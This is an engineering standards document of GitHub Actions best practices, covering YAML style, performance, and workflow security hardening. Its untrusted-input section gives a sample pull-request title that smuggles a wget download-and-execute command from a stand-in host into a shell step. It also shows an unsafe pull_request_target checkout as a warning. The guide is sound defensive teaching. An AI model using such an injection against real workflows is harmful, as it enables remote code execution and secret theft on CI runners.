 = TS-X: GitHub Actions Standards
:toc: macro
:toc-title: Contents

:link-docs-concurrency: https://docs.github.com/en/actions/writing-workflows/workflow-syntax-for-github-actions#concurrency
:link-docs-permissions: https://docs.github.com/en/actions/writing-workflows/workflow-syntax-for-github-actions#permissions
:link-docs-security: https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#using-third-party-actions
:link-docs-security-lab: https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/

This document serves as a collection of best practices for using (and making)
GitHub Actions.

toc::[]

== YAML syntax

////
TODO: Link to YAML best practices
////

Actions and workflows are defined in YAML files. YAML is designed to be a
human-readable, as well as a machine-parsable, data serialization format. YAML
files SHOULD, therefore, be written primarily with readability in mind.

Consideration SHOULD also be given to the maintenance of YAML files. Give
thought, for example, to how diffs will be presented in source control and
pull request systems. For example, because Git is a line-based version control
system, it is RECOMMENDED to use YAML's multi-line syntax for lists. So,
instead of this…

[source,yaml]
----
on:
  push:
    branches: [ "main" ]
  pull_request:
    branches: [ "main" ]
----

… do this:

[source,yaml]
----
on:
  push:
    branches:
      - main
  pull_request:
    branches:
      - main
----

YAML comment syntax SHOULD be used to document anything that is not intuitively
understood from the YAML data structure and the workflow/action schema.

== Workflows and actions schema

=== General guidelines

* Prefer to compose workflows from modules. Encourage reuse by breaking out
  discrete parts of pipelines into actions or workflow templates.

* Break down workflows into smaller jobs and steps. This will make it easier to
  manage conditions and dependencies.

* Test workflows thoroughly. Ensure that conditional logic and job dependencies
  work as expected. Do this by testing all the possible scenarios that could
  trigger each workflow.

* Choose descriptive and meaningful names for your secrets and variables. It
  SHOULD NOT be necessary to consult any out-of-band documentation to understand
  the purpose of a secret or variable referenced in a workflow. If the meaning
  of a variable cannot be easily deduced from its name and context, include
  an adjacent comment to explain its purpose.

* Names for workflows, jobs and steps should also be clear and consistent.

=== Jobs

A single job may, for example, compile, test _and_ deploy an application. Though
convenient, it is generally considered to be best practice for each job
definition to be responsible for a single concern, and for complex workflows
to be composed from multiple single-responsibility jobs.

This has a number of advantages. For example, workflows will be easier to extend
and maintain, and logging output will be easier to analyze.

=== Steps

All steps SHOULD be given a unique name. This will help to identify the output
of each step in the logs, and make it easier to debug failed workflows.

[source,yaml]
----
steps:
  - name: Say hello
    run: echo "Hello, world!"
----

=== Expressions

Expressions are commonly used in `if` attributes to make execution of an
individual step or a whole job conditional.

[source,yaml]
----
jobs:
  production-deploy:
    if: github.repository == 'owner/repo' && github.ref == 'refs/heads/main'
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2
      - uses: actions/setup-node@v2
        with:
          node-version: '14'
      - run: npm install -g bats
----

The value of the `if` attribute is treated as a JavaScript expression, rather
than a string value. Expressions can be used in other attributes, which assume
string values by default, using the `${{ <expression> }}` notation. Even in
`if` values, if the expression starts with `!`, the whole expression MUST be
encapsulated in the `${{ }}` syntax, or escaped with `''`, `""`, or `()`.
That's because the exclamation mark is reserved notation in YAML.

For consistency, it is RECOMMENDED the `${{ <expression> }}` syntax be used to
wrap all expressions, even those in `if` values where this syntax is not
required.

[source,yaml]
----
jobs:
  production-deploy:
    if: ${{ github.repository == 'owner/repo' && github.ref == 'refs/heads/main' }}
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2
      - uses: actions/setup-node@v2
        with:
          node-version: '14'
      - run: npm install -g bats
----

== Performance

=== Minimalism

Keep individual workflows, and reusable actions, as minimal as possible. The
more time something takes to set up and run, the higher the costs of running
your CI/CD infrastructure. Even shaving a few seconds off the run of a
workflow can add up to significant cost savings over a month, a year.

Prefer lightweight actions over heavyweight ones. Prefer JavaScript actions
over container actions, and best of all are composite actions consisting of
simple shell scripts. Where container actions are essential – for example where
you require a specific programming language or toolchain – prefer to use light
images, such as alpine or alpine-node, over heavy ones.

Don't install unnecessary dependencies.

=== Caching

Be sure to use caching wherever possible. Have package managers cache
dependencies, and cache any generated artifacts that can be reused between
jobs or workflow runs.

=== Timeouts

By default, GitHub kills jobs after 6 hours if they have not finished by
then. Many jobs don't need nearly as much time to finish, but sometimes
jobs can hang and the extended run consumes unnecessary minutes, which has a
cost.

It is RECOMMENDED to specify shorter timeouts that are appropriate for each job.
This is specified in minutes via the `jobs.<job_id>.timeout-minutes` attribute.
Example:

[source,yaml]
----
jobs:
  set_config:
    timeout-minutes: 30
    runs-on: ubuntu-latest
    steps:
      - [...]
----

=== Concurrency

It is RECOMMENDED to implement a concurrency strategy for workflows, especially
long-running, resource-intensive ones. This will cancel running workflows in the
same group when an event triggers a new run of the same workflow. For example,
you can automatically cancel intermediate builds on a PR when a newer commit
gets pushed to the PR's source branch.

[source,yaml]
----
concurrency:
  group: ${{ github.workflow }}-${{ github.ref }}
  cancel-in-progress: ${{ startsWith(github.ref, 'refs/pull/') }}
----

See the {link-docs-concurrency}[GitHub Docs] for further guidance.

== Security

See also {link-docs-security}[GitHub's Security Hardening for GitHub Actions]
guide, and also the series of posts on {link-docs-security-lab}[GitHub's
Security Lab] blog starting with "part 1: preventing pwn requests".

=== Secrets

Do not hard-code API keys, tokens, passwords, or other such secrets in workflow
files, even if those files are committed to private repositories. All sensitive
data MUST be managed via GitHub Secrets. GitHub Secrets provides a safe way to
store and use secrets in your workflows.

[TIP]
======
CI workflows are also a good place to implement secrets detection using tools
like https://github.com/GitGuardian/ggshield-action[GitGuardian].
======

Secrets SHOULD be regularly rotated, and unused ones deleted. Restrict who has
permissions to create and update secrets.

Do not use complex data types for storing secrets. Secrets SHOULD be
primitive values such as strings or numbers.

[source,txt]
----
# Good
SENSITIVE_VALUE1 = "abcdef"
SENSITIVE_VALUE2 = 123456

# Bad
{
  "sensitiveValue1": "abcdef",
  "sensitiveValue2": 123456
}
----

Be sure to mask any generated sensitive values in log output. Review the source
code of third party actions to make sure they do the same.

[source,yaml]
----
echo "::add-mask::$GENERATED_SENSITIVE_VALUE"
----

=== Tokens and long-lived secrets

Avoid storing tokens and other long-lived secrets where possible. For example,
rather than using API keys to authenticate with your infrastructure providers,
prefer using OpenID Connect (OIDC).

.How to use OpenID Connect
****
The following steps are done in your cloud provider:

1.  Create a role to be used only by your workflows. The role should contain the
    minimum set of permissions for the workflows to accomplish their tasks.

2.  Create an OIDC trust in the cloud provider. The trust should specify which
    repositories are allowed to obtain tokens, as well as any additional
    information necessary to increase security.

The following steps are done in the GitHub Actions workflows:

1.  Exchange GitHub's OIDC token for access credentials. There are several
    open source actions available from the marketplace that implement this
    exchange process.

2.  Use the short-lived credentials to manage resources. The short-lived
    credentials will be valid only for a single job, and will automatically
    expire after that.
****

DO NOT use classic Personal Access Tokens (PATS) to grant workflow access to
code from another repository. Ideally, create a GitHub App and use its
short-term credentials. If needed, use a fine-grained PAT and give it as few
permissions as necessary for the workflow to do its job (ie. only read access
to the required repositories).

When using fine-grained PATs, rotate then regularly. PATs are bound to specific
GitHub users, so it is RECOMMENDED to create a generic shared user account
against which to create your PATs.

=== Restricting permissions

By default, `GITHUB_TOKEN`, which is automatically generated on each run, is
given wide-ranging permissions to GitHub resources and operations. The principle
of least privilege should be applied to these tokens, which means restricting
permissions to the minimum required to do the job.

Permissions SHOULD be explicitly restricted on a per-workflow basis using
the `permissions` attribute.

[source,yaml]
----
name: Open new issue
on: workflow_dispatch

jobs:
  open-issue:
    runs-on: ubuntu-latest
    permissions:
      contents: read
      issues: write
    steps:
      - run: |
          gh issue --repo ${{ github.repository }} \
            create --title "Issue title" --body "Issue body"
        env:
          GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}
----

See the GitHub Docs for a full {link-docs-permissions}[list of available
permissions].

[IMPORTANT]
======
DO NOT pass the workflow's `$GITHUB_TOKEN` to untrusted third-party software,
including custom actions from untrusted sources.
======

=== Minimal scope

To limit their scope, environment variables should be declared at the step
level wherever possible. Elevate them to the job or (rarely) the workflow
level only to solve the problem of sharing data between steps within a job,
and between jobs within a workflow.

=== Untrusted input

Don't directly reference values you don't control. Consider the following
example:

[source,yaml]
----
- name: lint
  run: |
    echo "${{github.event.pull_request.title}}" | commitlint
----

This allows for injection of malicious code into the workflow. For example,
raising a PR with the following title…

[source,txt]
----
a" && wget https://example.com/malware && ./malware && echo "Title
----

… would cause the following code to be executed in your runner:

[source,txt]
----
echo “a" && wget https://example.com/malware && ./malware && echo "Title” | commitlint
----

The following event context data cannot be trusted:

* `github.event.issue.title`
* `github.event.issue.body`
* `github.event.pull_request.title`
* `github.event.pull_request.body`
* `github.event.comment.body`
* `github.event.review.body`
* `github.event.pages.*.page_name`
* `github.event.commits.*.message`
* `github.event.head_commit.message`
* `github.event.head_commit.author.email`
* `github.event.head_commit.author.name`
* `github.event.commits.*.author.email`
* `github.event.commits.*.author.name`
* `github.event.pull_request.head.ref`
* `github.event.pull_request.head.label`
* `github.event.pull_request.head.repo.default_branch`
* `github.head_ref`

There are two possible solutions. The RECOMMENDED one is to create custom
actions with input arguments, rater than executing inline shell scripts:

[source,yaml]
----
uses: fakeaction/printtitle@v3
with:
  title: ${{ github.event.pull_request.title }}
----

Alternatively, bind the value to an intermediate environment variable:

[source,yaml]
----
- name: Print title
  env:
    PR_TITLE: ${{ github.event.pull_request.title }}
  run: |
    echo "$PR_TITLE"
----

[TIP]
======
It is best practice to double-quote shell variables to avoid word splitting.
This practice is relevant to shell scripting in general, and is not specific
to GitHub Actions.
======

It is RECOMMENDED to use code scanning tools to help detect potential exploits
in your workflow code.

=== Consuming open source actions

There are many open source GitHub Actions that can be plugged in to your own
workflows. However, just like with any open source software, open source actions
MUST be carefully audited before integrating them into your development
toolchain. The risks are similar to using package managers to automate the
integration of third party components into your applications.

The following steps are RECOMMENDED when using third-party actions:

* Use only actions that are actively maintained. Check that bugs are triaged
  and fixed, and that security vulnerabilities are patched – and quickly.

* Use only actions that are published to the GitHub Marketplace, and only actions
  that have been verified by GitHub.

* Review the action's `action.yml` file for inputs and outputs, and check that
  the code does what it says it does.

* Include a specific version of the action, which you have audited. Best practice
  is to specify a commit SHA, rather than a branch or version tag. This ensures
  that the action's code is locked down and cannot be changed without you
  explicitly updating the version referenced from your workflow configuration.
  This will help to protect you from unexpected supply-chain compromises in the
  future.

[source,yaml]
----
- name: Checkout code
  uses: actions/checkout@a12a3943b4bdde767164f792f33f40b04645d846
----

=== External PRs

For public repositories only, workflows MUST NOT check out code when the
workflow is triggered by a `pull_request_target` event. *This is very
dangerous.*

[source,yaml]
----
on: pull_request_target
#...
  - uses: actions/checkout@v3
    with:
      ref: ${{ github.event.pull_request.head.sha }}
----

Normally, workflow runs triggered from forks do not have access to secrets,
or write access to the repository, because the runs happen in the context of the
_base_ branch of the PR. However, the `pull_request_target` event is a special
case. GitHub introduced this event type at the request of the open source
community so that workflows could be run in the context of the _target_ branch
of a PR. But this has important security implications.

Using the `pull_request_target` events means the workflow will have access to
your secrets, and write access to your code. If the workflow is also checking out
and running code from the repository, that code can't be trusted because it has
come from the external contributor (via a fork of your repository). You're
opening up your workflow to remote code execution.

This security vulnerability is known as a "pwn request". It is a type of attack
where an attacker forks a public repository, creates a pull request to the
original repository, and then triggers a workflow run on the original repository
but which checks out and run the attacker's code from their forked repository.
The attacker can use their own code in the context of the original repository.
This can be used to extract secrets, modify _your_ repository's code, or even
take over your repository.

Therefore, whenever you use `pull_request_target` in a workflow, the workflow's
jobs MUST NOT check out, build, or run the repository's code. All code executed
in a `pull_request_target` workflow MUST be defined within the workflow
configuration itself.

There is more detail on this attack vector on {link-docs-security-lab}[GitHub's
Security Lab] blog.

For all other workflow triggers in public repositories, it is RECOMMENDED to
disable automatic workflow runs from forks. Workflows on pull requests to
public repositories from _first-time_ outside contributors will not run
automatically by default, but it is RECOMMENDED that you disable automatic
workflow runs from being triggered by external contributors _all of the time_.
Project maintainers MUST review code coming from external PRs before triggering
the CI to run on those changes. Workflow approval requirements can be configured
for a repository, organization, or at the enterprise level.

More generally, when adding workflows to public repositories, consider the
security implications by asking yourself the following questions:

* What events could trigger a run?
* What code will be executed in the runner? Can it be trusted?
* What inputs are given to the workflow? Can _that_ be trusted?
* What data, secrets, and services does that code access?

=== Self-hosted runners

Use self-hosted runners only for running workflows defined in private
repositories. Any code that `runs-on: self-hosted` runners MUST be kept private.

This is because, if in a public repository, third parties could run malicious
code on your self-hosted runners by forking the public repository and then
creating a pull request. The workflow would run in the context of the PR's base
branch, which is considered untrusted. The attacker could modify the workflow's
code, and this will be executed on your infrastructure (your self-hosted
runner).

If you are using self-hosted runners, you are fully responsible for hardening
your infrastructure to keep it secure from malicious use like this, for example
by:

* Configuring a dedicated low-privilege user.
* Using isolated and ephemeral workloads to execute the jobs.
* Implementing logging and monitoring to ensure visibility.

But the ultimate security is to make sure that your self-hosted runners can only
be used by trusted users inside your organization. That means keeping private
the workflows and actions that run on them.

[NOTE]
======
GitHub doesn't allow personal accounts to use self-hosted runners on public
repositories, but they do allow organizations to do so.
======

=== GitHub-hosted runners

It is recommended to pin workflows to specific runner versions, such as
`ubuntu-22.04` rather than `ubuntu-latest`. This means you must manually
update workflow configurations when old runner versions are deprecated,
but the tradeoff is your workflows will be more stable in the meantime.
(This is less an issue of security, more an issue of maintenance.)

[source,yaml]
----
# Prefer:
runs-on: ubuntu-22.04

# To:
runs-on: ubuntu-latest
----
